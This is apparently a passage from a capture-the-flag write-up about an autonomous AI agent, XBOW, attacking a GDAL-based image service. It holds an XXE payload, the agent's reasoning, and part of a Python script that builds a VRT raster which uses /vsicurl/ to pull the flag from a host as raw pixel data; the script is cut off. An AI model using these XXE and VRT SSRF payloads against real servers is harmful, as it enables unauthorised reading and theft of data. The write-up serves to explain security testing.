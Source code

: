 And attempted XXE (XML External Entity) attacks:

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://[REDACTED]/"> ]>
<VRTDataset rasterXSize="1" rasterYSize="1">
  <Metadata>
    <MDI key="DESCRIPTION">&xxe;</MDI>
  </Metadata>
  <VRTRasterBand dataType="Byte" band="1">
    <ColorInterp>Gray</ColorInterp>
  </VRTRasterBand>
</VRTDataset>
```

But let’s fast forward to step 41 where XBOW had a major breakthrough.

#### The Eureka Moment: Raw Pixel Data

At step 41, XBOW had its breakthrough insight. If the server was interpreting file contents as pixel data, why not leverage this behavior? The idea was elegant: create a VRT that treats the flag content as raw pixel data, then extract it from the resulting image.

```
Let's try one final VRT. This VRT will define a very small raster (1x1 pixel). The pixel data itself will be sourced from `/vsicurl/http://[REDACTED]/`. If the flag text is short and GDAL tries to
interpret it as raw pixel data (e.g., a single byte value for a Byte raster band), it might work, or the error in trying to cast "FLAG{...}" to a byte might be revealing.
We will use the `/cog/preview.png` endpoint, as this tries to render an image. If it tries to render "FLAG{...}" as pixel data, the resulting "image" (or error image) might contain the flag.
```

![](https://xbow.com/sparkle-white.webp)

```
import urllib.parse
import subprocess
import time

# VRT that attempts to use the flag URL as raw pixel data source
# Define a small raster, e.g., 10x1 pixels if flag is ~10 chars.
# We don't know flag length, so start small.
# VRTRawRasterBand is for reading raw binary data.
# If flag is "FLAG{test}", ASCII values are F=70, L=76, A=65, G=71, etc.
# These could be pixel values.

# Assuming flag is relatively short, try to read it as a 1-row image.
# Let's guess a flag length of up to 64 characters for the raster width.
flag_max_len_guess = 64

vrt_raw_source_content = f"""<VRTDataset rasterXSize="{flag_max_len_guess}" rasterYSize="1">
<VRTRasterBand dataType="Byte" band="1" subClass="VRTRawRasterBand">
  <SourceFilename relativeToVRT="0">/vsicurl/http://[REDACTED]/</SourceFilename>
  <ImageOffset>0</ImageOffset> <!-- Start reading from byte 0 -->
  <PixelOffset>1</PixelOffset> <!-- Each pixel is 1 byte -->
  <LineOffset>{flag_max_len_guess}</LineOffset> <!-- Bytes per line -->
  <ByteOrder>LSB</ByteOrder> <!-- Not critical for Byte data -->
</VRTRasterBand>
</VRTDataset>"""

---- OMMITTED FOR BREVITY ----
```
